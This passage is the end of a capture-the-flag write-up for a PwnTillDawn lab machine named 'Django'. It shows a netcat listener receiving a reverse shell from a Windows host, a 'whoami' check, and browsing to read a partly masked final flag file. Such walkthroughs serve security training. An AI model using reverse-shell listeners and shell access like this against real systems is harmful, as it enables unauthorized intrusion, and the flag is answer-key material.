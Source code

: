Now, We run the payload and hopefully we can get the **RevShell**.

![revshell](post/Django_PwnTillDawn/imgs/10.JPG)


10. Boom! We are in!
```powershell
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.66.66.154] from (UNKNOWN) [10.150.150.212] 49375
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\xampp\htdocs>whoami
whoami
django\chuck.norris
```

## Post-Exploitation

By navigating through users directory, I have found the last flag `FLAG11.txt` in Desktop folder of `chuck.norris` user.

```powershell
C:\Users\chuck.norris>cd Desktop
cd Desktop

C:\Users\chuck.norris\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3829-EAA8

 Directory of C:\Users\chuck.norris\Desktop

02/05/2019  10:41 AM    <DIR>          .
02/05/2019  10:41 AM    <DIR>          ..
02/05/2019  10:40 AM                40 FLAG11.txt
               1 File(s)             40 bytes
               2 Dir(s)   3,862,536,192 bytes free
C:\Users\chuck.norris\Desktop>type FLAG11.txt
type FLAG11.txt
7a763d39f68ece1edd10XXXXXXXXXXXXXXXXXXX
```

_Pwned_

![pwned](post/Django_PwnTillDawn/imgs/11.JPG)

